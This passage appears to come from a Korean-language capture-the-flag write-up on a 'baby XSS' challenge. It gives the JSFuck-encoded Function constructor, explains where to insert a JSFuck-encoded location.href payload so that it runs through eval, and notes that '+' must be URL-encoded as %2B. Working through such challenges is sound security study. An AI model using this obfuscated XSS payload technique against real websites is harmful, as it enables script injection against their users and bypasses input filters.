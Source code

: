 ![{0535AF59-F995-4A35-8E2E-4734A845F8BF}](/images/2024-11-25-baby-xss/{0535AF59-F995-4A35-8E2E-4734A845F8BF}.png)

<br>

아래는 function() 의 JSFuck 형태인데 뒤에서 두 번째 괄호에 위에 사이트에서 줄인 location.href의 JSFuck 코드를 넣어주면 eval 함수 코드에서 실행될 수 있다. 

```
function() = [][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]()()
```

<br>

한 가지 더 해줘야 하는건 +가 url에 넘어가면서 공백으로 되기 때문에 이를 url 인코딩 해주기 위해 +를 %2B로 바꿔줘야 한다.
